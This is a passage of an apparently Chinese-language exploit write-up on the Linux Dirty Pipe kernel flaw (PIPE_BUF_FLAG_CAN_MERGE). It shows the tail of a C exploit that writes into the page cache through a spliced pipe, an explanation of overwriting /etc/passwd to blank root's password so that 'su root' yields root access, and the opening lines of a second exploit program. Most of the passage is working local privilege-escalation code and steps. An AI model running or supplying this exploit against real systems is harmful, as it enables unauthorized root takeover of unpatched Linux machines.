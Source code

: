       123.     }
    
      124.     if (nbytes == 0) {
    
      125.         fprintf(stderr, "short splice\n");
    
      126.         return EXIT_FAILURE;
    
      127.     }
    
      128.   129.     /* the following write will not create a new pipe_buffer, but
    
      130.        will instead write into the page cache, because of the
    
      131.        PIPE_BUF_FLAG_CAN_MERGE flag */
    
      132.     nbytes = write(p[1], data, data_size);
    
      133.     if (nbytes < 0) {
    
      134.         perror("write failed");
    
      135.         return EXIT_FAILURE;
    
      136.     }
    
      137.     if ((size_t)nbytes < data_size) {
    
      138.         fprintf(stderr, "short write\n");
    
      139.         return EXIT_FAILURE;
    
      140.     }
    
      141.     return EXIT_SUCCESS;
    
      142. }
    
    
    

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20230714175314.png)

  * 通过漏洞覆写`/etc/passwd`密码文件，将 root 帐号密码位`x`置空，即`root:x:0:0:root:/root:/bin/bash`改为`root::0:0:root:/root:/bin/bash`，然后用`su root`实现无密码切换到 root 帐号，从而实现提权。

    
          1. #define _GNU_SOURCE
    
      2. #include <unistd.h>
    
      3. #include <fcntl.h>
    
      4. #include <stdio.h>
    
      5. #include <stdlib.h>
    
      6. #include <string.h>
    
      7. #include <sys/stat.h>
    
      8. #include <sys/user.h>
    
      9.   10. #ifndef PAGE_SIZE
    
      11. #define PAGE_SIZE 4096
    